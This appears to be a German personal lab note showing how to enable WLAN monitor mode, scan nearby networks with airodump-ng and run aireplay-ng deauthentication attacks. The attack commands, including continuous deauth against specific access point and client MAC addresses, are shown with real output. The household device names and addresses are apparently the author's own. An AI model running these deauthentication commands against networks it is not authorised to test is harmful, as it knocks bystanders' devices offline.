



```sh
$ iwconfig      
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr=2347 B   Fragment thr:off
          Power Management:off
```


# Monitor mode aktivieren

```sh
$ ifconfig wlan0 down
```

Alle Prozess stoppen die evtl. auf den WLAN Adapter zugreifen:

```sh
$ airmon-ng check kill

Killing these processes:

    PID Name
   1154 wpa_supplicant

```

Monitor mode aktivieren:

```sh
$ iwconfig wlan0 mode monitor
```

Mögliche Fehlermeldung:

```
Error for wireless request "Set Mode" (8B06) :
    SET failed on device wlan0 ; Device or resource busy.
```

Evtl. noch einmal

```sh
$ ifconfig wlan0 down
```

Informationen zum Adapter

```sh
$ airmon-ng

PHY     Interface       Driver          Chipset

phy0    wlan0           rtl8192cu       Edimax Technology Co., Ltd EW-7811Un 802.11n [Realtek RTL8188CUS]
```

Check ob Monitor Mode aktiv

```sh
$ iwconfig                   
wlan0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr=2347 B   Fragment thr:off
          Power Management:off
```

```sh
$ ifconfig wlan0 up
```

Testen mit Wireshark

Komplett:

```sh
ifconfig wlan0 down;airmon-ng check kill;iwconfig wlan0 mode monitor;ifconfig wlan0 up
```


# airodump-ng

```sh
$ airodump-ng wlan0

CH  8 ][ Elapsed: 2 mins ][ 2021-07-28 10:32                                                                                    
                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                 
                                                                                                                                 
 7C:FF:4D:DF:C2:A5  -49       83        0    0  11  195   WPA2 CCMP   PSK  Malepartus                                            
 E0:28:6D:7B:FA:94  -74       69       62    0  11  720   WPA2 CCMP   PSK  Malepartus                                            
 B8:BE:F4:00:F3:02  -86       75        0    0   6  130   WPA2 CCMP   PSK  Casa_Flip_5G                                          
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               
                                                                                                                                 
 (not associated)   50:1E:2D:04:DD:86  -61    0 - 1      0        1         Malepartus                                           
 (not associated)   DA:09:EA:67:DB:8C  -79    0 - 1      0        2                                                              
 (not associated)   F2:8B:1B:3A:56:7F  -49    0 - 1      0        1                                                              
 (not associated)   4E:CA:CB:19:AA:D1  -87    0 - 1      0        2         Malepartus                                           
 (not associated)   0A:63:38:F4:02:53  -83    0 - 1      0        1         Malepartus                                           
 (not associated)   8A:15:0E:55:ED:64  -59    0 - 1      0        4                                                              
 (not associated)   AC:89:95:F5:AA:91  -85    0 - 1      0        1         Malepartus   
```

[Beschreibung](https://www.elektronik-kompendium.de/sites/net/2008071.htm)

Zeigt nur 2.4 GHz (nicht 5 GHz)

Es gibt nicht viele Adapter die auf 5 GHz Monitor Mode unterstützen. Hinweis: Edimax Technology Co., Ltd EW-7811Un unterstützt kein 5 GHz!

5GHz:

```sh
$ airodump-ng --band a wlan0
CH 118 ][ Elapsed: 48 s ][ 2021-07-28 10:38                                                                                     
                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                 
                                                                                                                                 
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               

```


2.4GHz und 5GHz:

```sh
$ airodump-ng --band abg wlan0

CH 58 ][ Elapsed: 2 mins ][ 2021-07-28 10:41                                                                                    
                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                 
                                                                                                                                 
 7C:FF:4D:DF:C2:A5  -48       26        0    0  11  195   WPA2 CCMP   PSK  Malepartus                                            
 E0:28:6D:7B:FA:94  -82       27      220    1  11  720   WPA2 CCMP   PSK  Malepartus                                            
 B8:BE:F4:00:F3:02  -85       40        0    0   6  130   WPA2 CCMP   PSK  Casa_Flip_5G                                          
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               
                                                                                                                                 
 (not associated)   28:F0:76:0C:00:D2  -37    0 - 1      0        3                                                              
 (not associated)   3E:18:ED:53:8B:59  -49    0 - 1      0        1                                                              
 (not associated)   50:1E:2D:04:DD:86  -69    0 - 1      0        1         Malepartus                                           
 (not associated)   AC:89:95:F5:AA:91  -83    0 - 1      0        1         Malepartus                                           
 (not associated)   C2:3D:69:76:9F:6D  -59    0 - 1      0        4                                                              
 (not associated)   76:CD:B7:AA:AC:CD  -59    0 - 1      0        2                                                              
 (not associated)   F6:E2:FB:BA:F1:59  -47    0 - 1      0        1                                                              
 (not associated)   CA:5F:62:6D:E4:51  -73    0 - 1      0        2         Malepartus                                           
 (not associated)   5A:45:BA:2A:F7:33  -73    0 - 1      0        1                                                              
 (not associated)   1C:91:80:BD:8D:9D  -71    0 - 1      0        9         Malepartus                                           
 (not associated)   32:CA:48:EA:66:22  -61    0 - 1      0        1         Malepartus                                           
 (not associated)   B6:1C:85:4F:C7:79  -59    0 - 1      0        1         Malepartus                                           
 (not associated)   B6:DD:BC:B4:19:E7  -59    0 - 1      0        1                                                              
 (not associated)   32:67:AE:EC:54:F1  -57    0 - 1      0        2         Malepartus                                           
 (not associated)   76:71:08:B4:BB:63  -55    0 - 1      0        1                                                              
 E0:28:6D:7B:FA:94  EA:82:85:70:C1:FC   -1    1e- 0      0        1
```

Nur eine bestimmte Basisstation und Kanal beobachten, Ergebnis in eine Datei schreiben:

```sh
$ airodump-ng --bssid B8:BE:F4:00:F3:02 --channel 6 --write Casa_Flip_5G wlan0

CH  6 ][ Elapsed: 42 s ][ 2021-07-28 10:45                                                                                      
                                                                                                                                 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                             
                                                                                                                                 
 B8:BE:F4:00:F3:02  -85  37      191        0    0   6  130   WPA2 CCMP   PSK  Casa_Flip_5G                                      
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               

```

Es werden mehrere Dateien mit unterschiedlichen Endungen erzeugt. Z.B. `.cap` File kann mit wireshark geöffnet werden (`Casa_Flip.txt-01.cap`).


# Deauthentication Attack



```sh
$ aireplay-ng --deauth <#DeauthPackets> -a <RouterMAC> -c <TargetMAC> <interface>
# -a ... AP (access point) MAC adress (BSSID)
# -c ... client to disconnect
# -D ... 5GHz
```








```
Fritz Box EG-BSSID: E0:28:6D:7B:FA:94 (MAC E0:28:6D:7B:FA:91) (192.168.178.1)
Fritz Box OG-BSSID: 7C:FF:4D:DF:C2:A5 (MAC 62:FF:4D:DF:C2:A5) (192.168.178.40)
BeoPlay M3:   50:1E:2D:04:DD:86
FranziPhone: 8A:42:87:22:F5:8A (192.168.178.62)


aireplay-ng --deauth 10000 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0

aireplay-ng --deauth 1 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0

# ständig wiederholen
aireplay-ng --deauth 0 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0 
```

BTW: Die (mit nmap ermittelten) MAC Adressen der access points stimmen nicht ganz mit der BSSID zusammen (hmmmm):

> **BSSID** is the Basic Service Set Identifier, a unique 48-bit label associated with an individual access point and set of clients affiliated with a specific service set. Often, this will just be the MAC address (or a derivative thereof) of the access point radio.

Manchmal scheint `aireplay-ng` nicht den richtigen Kanal zu finden...

```sh
$ aireplay-ng --deauth 1 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0
06:49:02  Waiting for beacon frame (BSSID: 7C:FF:4D:DF:C2:A5) on channel 9
06:49:15  No such BSSID available.
```

Hier wäre 11 der richtige Kanal:

```sh
$ aireplay-ng --deauth 1000 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0
06:51:51  Waiting for beacon frame (BSSID: 7C:FF:4D:DF:C2:A5) on channel 10
06:51:51  wlan0 is on channel 10, but the AP uses channel 11
```

Lösung: `airodump-ng` darf nicht gerade laufen und den **richtigen Kanal** einstellen:

```sh
$ airmon-ng start wlan0 11
```

Oder vielleicht sogar besser vorher `airodump-ng` mit der Option `--channel` verwenden.

```sh
# iPhone
# Fritz Box OG-BSSID: 7C:FF:4D:DF:C2:A5 (MAC 62:FF:4D:DF:C2:A5) (192.168.178.40)
# FranziPhone: 8A:42:87:22:F5:8A (192.168.178.62)
$ airodump-ng --bssid 7C:FF:4D:DF:C2:A5 --channel 11 wlan0
$ aireplay-ng --deauth 0 -a 7C:FF:4D:DF:C2:A5 -c 8A:42:87:22:F5:8A wlan0
```

